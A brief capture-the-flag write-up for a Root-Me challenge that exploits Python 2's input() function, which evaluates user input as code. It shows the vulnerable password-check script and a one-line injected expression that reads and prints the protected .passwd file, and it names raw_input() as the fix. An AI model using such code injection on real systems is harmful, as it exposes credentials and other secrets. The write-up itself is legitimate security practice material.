 ```
ssh -p 2222 app-script-ch6@challenge02.root-me.org
```

The code is:

```
#!/usr/bin/python2

import sys

def youLose():
    print "Try again ;-)"
    sys.exit(1)


try:
    p = input("Please enter password : ")
except:
    youLose()


with open(".passwd") as f:
    passwd = f.readline().strip()
    try:
        if (p == int(passwd)):
            print "Well done ! You can validate with this password !"
    except:
        youLose()
```

We are going to exploit it thanks to a vulnerability of input() in python2. To secure it, we should use raw_input().

If we write a command, like

```
sys.stdout.write(open(".passwd").readline())
```
she will be executed.

Well, write this command and enjoy your flag.
